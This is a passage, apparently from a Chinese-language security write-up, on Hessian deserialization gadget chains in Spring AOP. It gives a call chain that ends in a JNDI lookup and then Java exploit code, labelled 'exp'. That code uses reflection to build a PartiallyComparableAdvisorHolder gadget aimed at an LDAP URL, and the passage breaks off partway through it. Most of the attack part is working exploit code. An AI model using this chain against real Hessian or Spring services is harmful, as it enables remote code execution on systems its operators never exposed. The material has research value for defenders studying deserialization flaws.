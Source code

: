 在`AbstractPointcutAdvisor#equals`方法中，存在可以触发`getAdvice()`的点，并且`otherAdvice`可控，至于`equals`可通过`HashCode#puVal`触发，整条链就串起来了。

[![](assets/1706145875-82b2e29962a0f8c7d2290b703ed813dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122222635-3f211bb2-b932-1.png)

## PartiallyComparableAdvisorHolder

```plain
Hessian#readObject()->
    hashMap.putVal()->
        hotSwappableTargetSource#equals()->
            Xstring#equals()->
                PartiallyComparableAdvisorHolder#toString()->
                    AspectJPointcutAdvisor#getOrder()->
                        AbstractAspectJAdvice#getOrder()->
                            BeanFactoryAspectInstanceFactory#getOrder()->
                                SimpleJndiBeanFactory#getType()->
                                    SimpleJndiBeanFactory#doGetType()->
                                        SimpleJndiBeanFactory#doGetSingleton()->
                                            SimpleJndiBeanFactory#lookup()->JndiTemplate#lookup()
```

exp:

```plain
public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchFieldException, IOException {
        String jndiUrl = "ldap://127.0.0.1:9999/siJdcpuR";
        SimpleJndiBeanFactory simpleJndiBeanFactory=new SimpleJndiBeanFactory();
        simpleJndiBeanFactory.setShareableResources(jndiUrl);

        AspectInstanceFactory beanFactoryAspectInstanceFactory=createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
        setFieldValue(beanFactoryAspectInstanceFactory,"beanFactory",simpleJndiBeanFactory);
        setFieldValue(beanFactoryAspectInstanceFactory,"name",jndiUrl);

        AbstractAspectJAdvice advice = createWithoutConstructor(AspectJAfterAdvice.class);

        Class<?> abstractAspectJAdvice= Class.forName("org.springframework.aop.aspectj.AbstractAspectJAdvice");
        Field aspectInstanceFactory=abstractAspectJAdvice.getDeclaredField("aspectInstanceFactory");
        aspectInstanceFactory.setAccessible(true);
        aspectInstanceFactory.set(advice,beanFactoryAspectInstanceFactory);

        AspectJPointcutAdvisor aspectJPointcutAdvisor=createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFieldValue(aspectJPointcutAdvisor,"advice",advice);

        Class<?> PartiallyComparableAdvisorHolder=Class.forName("org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
        Object Partially=createWithoutConstructor(PartiallyComparableAdvisorHolder);
        setFieldValue(Partially,"advisor",aspectJPointcutAdvisor);
```